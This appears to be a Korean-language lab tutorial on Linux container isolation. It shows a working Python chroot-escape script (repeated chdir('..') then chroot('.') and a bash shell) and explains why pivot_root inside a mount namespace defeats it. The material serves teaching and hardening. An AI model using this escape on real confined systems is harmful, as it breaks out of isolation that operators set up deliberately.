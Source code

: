 # 개요
* chroot를 사용하면 탈옥이 가능하다는 점을 설명

# 필요지식
* [linux mount namespace](../mount_namespace/)
* [chroot](../chroot/)

# 실습환경
* vagrant debian_python

# chroot 탈옥

1. 실습 디렉터리 생성

```sh
mkdir /root/test
```

2. debian_python를 chroot하기 위한 파일 다운로드

```sh
docker export $(docker create python:bullseye) -o /root/test/debian_python.tar
ls -l /root/test/debian_python.tar
```


3. debian_python.tar 압축 해제

```sh
cd /root/test
mkdir -p ./debian_python
tar -xvf ./debian_python.tar -C ./debian_python
```

4. chroot를 실행하면서 root디렉터리를 변경

```sh
unshare --mount chroot ./debian_python /bin/bash
```

5. 탈옥하는 python script 실행

```sh
$ cat > breakout.py
import os
if not os.path.exists("chroot-dir"):
    os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")

$ python3 breakout.py
```

# 왜 탈옥이 가능할까?
* chroot로 변경한 root디렉터리는 상대경로로 변경됨

```sh
# chroot를 실행한 프로세스에서 process id 조회
$ echo $$
5394

# host에서 실행
$ ls -l /proc/5394/root
$ ls -l /proc/5394/cwd
```

![](./imgs/break_chroot.png)

# pivot_root

1. 이전 실습파일 삭제

```sh
cd /root/test/
rm -rf ./debian_python
```

2. debian_python 압축 해제

```sh
mkdir -p ./debian_python
tar -xvf ./debian_python.tar -C ./debian_python
```

3. mount namespace를 생성하면서 sh쉘 실행

```sh
unshare --mount sh
mount --bind ./debian_python ./debian_python
```

4. pivot_root 실행

```sh
mkdir ./debian_python/.oldrootfs
cd ./debian_python
pivot_root . .oldrootfs

# 변경된 root 파일시스템으로 이동
cd /
pwd
```

5. 탈옥 실패 확인

```sh
$ cat > breakout.py
import os
if not os.path.exists("chroot-dir"):
    os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")

# 탈옥 시도
$ python3 breakout.py

# host /etc/passwd가 안보이면 pivot_root 성공
$ cat /etc/passwd
```

6. /proc에서 root, cwd확인
* chroot 결과와 다르게 상대경로가 아닌 "/"로 변경됨

```sh
# chroot를 실행한 프로세스에서 process id 조회
$ echo $$
7513

# host에서 실행
$ ls -l /proc/7513/root
$ ls -l /proc/7513/cwd
```

![](./imgs/fail_break_pivot_root.png)

# 참고자료
* https://thomasvanlaere.com/posts/2020/04/exploring-containers-part-1/
* 이게 돼요? 도커 없이 컨테이너 만들기 / if(kakao)2022 - https://youtu.be/mSD88FuST80?si=Vbl63IkW6Dc8YFJk
* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash
* https://wariua.github.io/man-pages-ko/pivot_root%282%29/
